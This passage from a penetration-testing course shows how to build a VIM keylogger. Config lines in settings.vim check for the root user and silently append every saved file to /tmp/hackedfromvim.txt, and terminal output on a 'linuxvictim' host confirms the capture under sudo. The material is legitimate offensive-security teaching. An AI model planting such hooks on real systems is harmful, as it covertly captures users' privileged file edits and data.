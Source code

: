 This approach is useful, but it logs the entire contents of the changed file to our log file for every file the target user edits. Our log file could grow quickly. Let's refine our attack to include only files that the user is editing using elevated permissions.

Thankfully, VIM allows for control logic in its internal scripting language. Additionally, as we mentioned earlier, it's possible to access environment variables from within VIM, including which user the application is running as. Let's put these together to make our keylogger more efficient.

VIM supports the use of basic _if_ statements in its configuration scripts in this manner.

```
:if <some condition>
:<some command>
:else
:<some alternative command>
:endif
```

> Listing 14 - Control logic in VIM config files

Combining this with the ability to use environment variables, we can check whether the user is running as root.

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```

> Listing 15 - Checking if our user is root

Let's replace our line in settings.vim with this.

Previously, we discussed how in some system configurations it's possible to persist the VIM's user environment settings in a sudo context. In these situations, when the user runs VIM as themselves, VIM behaves normally. When they run VIM in a sudo context, however, the keylogger will write any changes they make to files to the log file we've specified.

```
offsec@linuxvictim:~$ rm /tmp/hackedfromvim.txt

offsec@linuxvictim:~$ vi /tmp/test.txt

offsec@linuxvictim:~$ ls -al /tmp/hackedfromvim.txt
ls: cannot access '/tmp/hackedfromvim.txt': No such file or directory

offsec@linuxvictim:~$ sudo vi /tmp/test.txt

offsec@linuxvictim:~$ ls -al /tmp/hackedfromvim.txt
-rw-r--r-- 1 root root 31 Jul 31 14:02 /tmp/hackedfromvim.txt
```

> Listing 16 - Running the exploit as sudo

From the results in listing 16, we find that our attempt at running VIM as a normal user didn't result in the creation of our log file. However, when we run as sudo, the log file is created under the _root_ user.
